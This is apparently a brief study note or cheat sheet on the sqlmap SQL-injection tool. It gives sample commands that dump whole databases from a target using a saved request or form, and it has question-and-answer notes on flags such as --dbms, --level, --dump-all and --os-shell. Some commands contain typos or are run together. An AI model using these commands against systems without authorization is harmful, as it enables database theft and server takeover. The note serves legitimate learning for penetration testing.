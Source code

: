 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
```
  -r uses the intercepted request you saved earlier

# What flag sets which database is in the target host's backend?  
Ex: If the flag is set to mysql then sqlmap will only test mysql injections.  
  --dbms tells SQLMap

# What type of database management system it is How do you dump the table entries of the database?  
  --dump attempts to outputs the entire database

  -p use the pramater

# How do you select the level of depth sqlmap should use(higher = more accurate and more tests in general).  
  --level

#How do you ask sqlmap to try to get an interactive os-shell?  
  --os-shell

#What flag dumps all data from every table
  --dump-all

#location of dump csv /home/user/.local/share/sqlmap/output/10.10.10.10/‐ dump/
```
